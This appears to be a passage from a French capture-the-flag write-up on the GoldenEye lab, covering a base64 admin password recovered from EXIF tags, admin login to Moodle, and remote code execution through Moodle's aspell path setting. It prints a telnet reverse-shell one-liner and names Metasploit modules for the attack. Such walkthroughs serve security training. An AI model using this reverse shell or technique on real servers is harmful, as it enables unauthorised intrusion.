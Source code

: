 ## Top secret

On se reconnecte une fois de plus sur le `Moodle` avec les nouveaux identifiants. Je trouve dans les dossiers personnels de l'utilisateur un fichier `s3cret.txt` :

```
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
```

Regarder les tags EXIF de l'image mentionnée remonte un base64 :

```console
$ exiftool for-007.jpg 
ExifTool Version Number         : 12.60
File Name                       : for-007.jpg
--- snip ---
Image Description               : eFdpbnRlcjE5OTV4IQ==
Make                            : GoldenEye
Resolution Unit                 : inches
Software                        : linux
Artist                          : For James
--- snip ---
```

Ce dernier se décode en `xWinter1995x!`. Je peux ensuite me connecter en tant qu'admin sur l'appli web.

J'ai fouillé un moment pour voir si'il y avait un moyen simple d'obtenir une exécution de code ou de commande et en allant dans `Administration > Server > System paths` j'ai remarqué l'entrée suivante pour le path attendu par `aspell` :

```bash
(sleep 4062|telnet 192.168.230.132 4444|while : ; do sh && break; done 2>&1|telnet 192.168.230.132 4444 >/dev/null 2>&1 &)
```

Il semble que l'auteur du CTF a testé tout comme il se doit, mais qu'il a oublié de nettoyer cette entrée.

L'exploitation semble correspondre à [moodle_spelling_binary_rce.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/moodle_spelling_binary_rce.rb) de Metasploit. Je trouve aussi un exploit plus récent [moodle_spelling_path_rce.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/moodle_spelling_path_rce.rb).

Dans tous les cas il faut que _TinyMCE_ soit défini dans les settings comme l'éditeur de texte et que le moteur de vérification syntaxique soit `PSpellShell` à sélectionner dans `Administration > Plugins > Text editors > Tiny MCE`.
